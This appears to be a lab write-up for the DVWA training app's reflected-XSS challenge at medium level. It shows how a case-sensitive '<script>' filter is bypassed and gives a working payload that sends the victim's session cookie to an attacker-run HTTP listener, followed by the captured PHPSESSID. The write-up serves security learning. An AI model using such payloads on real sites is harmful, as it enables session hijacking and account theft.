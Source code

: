 #+TITLE: DVWA - XSS Reflected Medium
#+AUTHOR: Leonardo Tamiano

* Description
  The difference between the ~low~ and ~medium~ is that now there's a
  little bit of input cleaning. In particular, the simply tag ~<script>~
  gets removed as we can see from the code

  #+begin_src php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
  #+end_src

* Solution
  The bypass is pretty straight forward, and it relies on the fact
  that the script tag is not case sensitive, while the filtering is,
  which means we can simply put ~<Script>~ and it will work again.

  #+begin_example
<Script> alert(1); </Script>
  #+end_example

  Once again, if we want to leak the cookie we start an http server

  #+begin_src sh
python3 -m http.server 1337
  #+end_src

  and then we prepare the following JS payload

  #+begin_src js
var xhr = new XMLHttpRequest();
xhr.open('GET', `http://localhost:1337/${document.cookie}`, false);
xhr.send(null);
  #+end_src

  which is sent over the discovered XSS

  #+begin_example
http://evil/vulnerabilities/xss_r/?name=%3CScript%3E+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27GET%27%2C+%60http%3A%2F%2Flocalhost%3A1337%2F%24%7Bdocument.cookie%7D%60%2C+false%29%3B+xhr.send%28null%29%3B+%3C%2FScript%3E
  #+end_example

  when the user clicks on that link, we get his cookie

  #+begin_example
[leo@archlinux xss_reflected]$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [07/Nov/2023 19:02:01] code 404, message File not found
127.0.0.1 - - [07/Nov/2023 19:02:01] "GET /PHPSESSID=301dckse7uvq2hn6dbmu9o62t2;%20security=medium HTTP/1.1" 404 
  #+end_example
